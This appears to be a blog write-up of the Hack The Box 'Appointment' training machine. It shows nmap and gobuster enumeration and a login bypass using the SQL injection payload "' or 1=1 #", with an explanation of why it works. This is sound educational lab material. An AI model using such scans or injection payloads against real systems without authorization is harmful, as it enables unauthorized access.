 ```yaml
---
layout: post
title: appointment
categories: htb
tags:
- htb
- starting_point
- appointment
- sqli
author: nicoliboli
description: starting point | tier 1 | box 0
date: '2025-06-26 17:37:30 -0400'
---
```

# enumeration

```
$ nmap 10.129.152.21               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:58 EDT
Nmap scan report for 10.129.152.21
Host is up (0.096s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds

$ nmap -p- -T5 10.129.152.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:58 EDT
Warning: 10.129.152.21 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.152.21
Host is up (0.097s latency).
Not shown: 63439 closed tcp ports (conn-refused), 2095 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 518.78 seconds

$ nmap -sC -sV -p 80 10.129.152.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 17:01 EDT
Nmap scan report for 10.129.152.21
Host is up (0.094s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```

## port 80

see if `gobuster` finds any interesting subdirecties or files

```
$ gobuster dir -u http://10.129.152.21 -w /usr/share/wordlists/dirb/common.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.152.21
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.152.21/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.152.21/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.152.21/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 311] [--> http://10.129.152.21/js/]
/server-status        (Status: 403) [Size: 278]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.152.21/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

nothing stands out there, so time to open the page in the web browser

![appointment_home](/assets/img/appointment_home.png)

# exploitation

try to login with a couple creds

[x] admin/admin
[x] root/root
[x] test/test

try a SQL injection to bypass the login. the check is probably a statement similar to `select * from users where username = 'USERNAME' and password = 'PASSWORD'` so the key is to enter a string of characters to make that statement always true. let's see if the application logs us in if there is no sanitization on the username. [this](https://portswigger.net/support/using-sql-injection-to-bypass-authentication) a pretty good resource on using SQLi to bypass login 

```
injection: ' or 1=1 #
username: admin
password: whatever
statement: select * from users where username = 'admin' or 1=1 #'' and password = 'whatever';
```

since the `'` and `#` characters are not sanitized, my statement ultimately reads `select * from users where username = 'admin' or 1=1 #` because of the comment. i don't even need the username, but it makes it more readable if its there. login and there is the flag

![apointment_login](/assets/img/appointment_login.png)

![appointment_flag](/assets/img/appointment_flag.png)
